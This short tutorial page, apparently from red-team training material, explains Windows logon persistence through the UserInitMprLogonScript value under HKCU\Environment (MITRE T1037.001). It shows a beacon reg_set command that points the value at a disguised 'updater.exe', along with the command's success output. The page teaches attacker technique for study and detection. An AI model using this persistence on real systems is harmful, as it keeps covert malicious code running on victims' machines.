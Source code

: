# Logon Script

The `HKCU\Environment` registry key contains the user's environment variables, such as `%Path%` and `%TEMP%`.  An adversary can add another value to this key called `UserInitMprLogonScript` \[[T1037.001](https://attack.mitre.org/techniques/T1037/001/)].  As with the autorun keys, is this value should contain the path to a program, then it will execute automatically when the user logs in.

```batch
beacon> reg_set HKCU Environment UserInitMprLogonScript REG_EXPAND_SZ %USERPROFILE%\AppData\Local\Microsoft\WindowsApps\updater.exe

Setting registry key \\.\0000000080000001\Environment\UserInitMprLogonScript with type 2
Successfully set regkey
SUCCESS.
```

